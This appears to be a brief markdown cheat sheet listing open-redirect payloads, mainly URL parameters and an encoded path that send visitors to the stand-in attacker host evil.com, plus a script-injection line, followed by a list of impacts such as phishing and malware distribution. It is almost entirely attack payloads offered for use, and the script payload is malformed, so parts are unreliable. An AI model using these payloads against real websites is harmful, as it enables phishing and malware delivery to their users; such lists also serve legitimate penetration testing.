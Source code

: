 # open redirect


1 - payload: {evil.com} 
===>>> example: site.com/.../redirect_uri=evil.com/...


2 - payload: {///%5Cevil.com/} 
===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>
===>>> example: search box : injection


4 - payload: {evil.com}
===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com



## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
- 
